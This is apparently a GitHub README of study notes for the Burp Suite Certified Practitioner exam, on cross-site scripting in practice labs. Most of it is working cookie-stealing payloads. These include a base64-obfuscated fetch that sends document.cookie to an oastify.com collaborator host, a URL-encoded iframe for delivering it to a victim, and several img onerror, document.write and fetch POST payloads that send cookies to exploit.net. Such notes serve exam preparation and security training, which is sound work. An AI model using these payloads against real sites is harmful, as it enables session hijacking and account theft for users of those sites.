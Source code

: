 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

#### Reflected XSS in Search
Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://839cktu7uogedm6a1kjuy3outlzcn2br.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```
![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)
<sup>hosting in iframe on exploit server</sup>
```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
![(Deliver reflected xss to steal victim cookie.](deliver-reflected-xss-to-steal-victim-cookie.png)

URL and Base64 online encoders and decoders
[URL Decode and Encode](https://www.urldecoder.org/)
[BASE64 Decode and Encode](https://www.base64encode.org/)  

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

Fetch API Cookie Stealer
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
